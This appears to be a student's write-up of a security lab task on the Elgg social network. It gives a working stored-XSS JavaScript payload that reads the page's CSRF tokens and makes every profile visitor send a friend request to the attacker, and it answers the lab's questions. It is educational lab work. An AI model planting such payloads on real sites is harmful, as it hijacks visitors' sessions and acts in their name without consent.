


## Task 4: Becoming the Victim's Friend

**Objective:** Automatically send a friend request to the attacker's account when the victim views the attacker's profile.

**Steps:**
- Analyzed the HTTP request when adding a friend in Elgg using the browser's developer tools.
- Used the following JavaScript code in the attacker's profile to replicate this request.
```HTML
<script type="text/javascript">
        window.onload = function() {
        var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
        var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
        var sendurl = "http://www.xsslabelgg.com/action/friends/add?friend=44" + ts + token;
        var Ajax = new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
        Ajax.setRequestHeader("Keep-Alive", "300");
        Ajax.setRequestHeader("Connection", "keep-alive");
        Ajax.setRequestHeader("Cookie", document.cookie);
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send();
    }
</script>
```


*Script Injection*


*Automatically added as friend after visiting profile*

**Observation:**  If someone visits the attacker's profile, it automatically triggers a friend request to the attacker's account from the victim's account.

### Questions

1. **Question 1:** Explain the purpose of Lines 1 and 2, why are they are needed?

    - The lines retrieve the security token and timestamp required for authenticated requests in the Elgg application.
2. **Question 2:** If the Elgg application only provides the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?
    - If the Text mode is unavailable, it may be impossible to launch a successful attack, as the Editor mode can modify or strip out the injected JavaScript code.